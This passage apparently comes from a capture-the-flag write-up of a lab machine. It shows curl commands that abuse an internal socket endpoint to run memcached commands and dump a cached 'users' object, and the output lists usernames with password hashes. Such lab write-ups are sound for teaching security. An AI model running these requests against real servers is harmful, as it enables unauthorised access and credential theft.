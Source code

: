     
    
    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats cachedump 16 0' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'                         
    ITEM stock [2807 b; 1540823371 s]
    END
    
    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats cachedump 26 0' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
    ITEM users [24625 b; 1540811452 s]
    END
    

#### Get Users Data

Now I can get the actual data. The `stock` item returns json data that matches
what I see on the port 80 page. The users item contains usernames and hashes.
To display this properly, I’ll use `recode` to un-html encode a bunch of
stuff, and then a similar to before `sed` command:

    
    
    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=get users' -H "Cookie: password=secret" | recode html..ascii | sed -n '/<pre>/{:a;n;/<\/pre/b;p;ba}'
    VALUE users 0 24625
    {"quinton_dach": "17906b445a05dc42f78ae86a92a57bbd", "jackie.abbott": "c6ab361604c4691f78958d6289910d21", "isidro": "e4a4c90483d2ef61de42af1f044087f3", "roy": "afbde995441e19497fe0695e9c539266", "colleen": "d3792794c3143f7e04fd57dc8b085cd4", "harrison.hessel": "bc5f9b43a0336253ff947a4f8dbdb74f", "asa.christiansen": "d7505316e9a10f
    c113126f808663b5a4", "jessie": "71f08b45555acc5259bcefa3af63f4e1", "milton_hintz": "8f61be2ebfc66a5f2496bbf849c89b84", "demario_homenick": "2c22da161f085a9aba62b9bbedbd4ca7", "paris": "ef9b20082b7c234c91e165c947f10b71", "gardner_ward": "eb7ed0e8c112234ab1439726a4c50162", "daija.casper": "4d0ed472e5714e5cca8ea7272b15173a", "alanna.
    prohaska": "6980ba8ee392b3fa6a054226b7d8dd8f", "russell_borer": "cb10b94b5dbb5dfab049070a2abda16e", "domenica.kulas": "5cb322691472f05130416b05b22d4cdf", "davon.kuhic": "e301e431db395ab3fdc123ba8be93ff9", "alana": "41c85abbc7c64d93ca7bda5e2cfc46c2", "bryana": "4d0da0f96ecd0e8b655573cd67b8a1c1", "elmo_welch": "89122bf3ade23faf37b470f1fa5c7358", ...[snip]...
    END
    

If I update the `sed` slightly to get values between the line with `VALUE` and
`END`, I can get just the json, and I can use `jq` to format it:

    
    
    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=get users' -H "Cookie: password=secret" | recode html..ascii | sed -n '/VALUE/{:a;n;/END/b;p;ba}' | jq .
    {
      "quinton_dach": "17906b445a05dc42f78ae86a92a57bbd",
      "jackie.abbott": "c6ab361604c4691f78958d6289910d21",
      "isidro": "e4a4c90483d2ef61de42af1f044087f3",
      "roy": "afbde995441e19497fe0695e9c539266",
      "colleen": "d3792794c3143f7e04fd57dc8b085cd4",
      "harrison.hessel": "bc5f9b43a0336253ff947a4f8dbdb74f",
      "asa.christiansen": "d7505316e9a10fc113126f808663b5a4",
      "jessie": "71f08b45555acc5259bcefa3af63f4e1",
      "milton_hintz": "8f61be2ebfc66a5f2496bbf849c89b84",
    ...[snip]...
    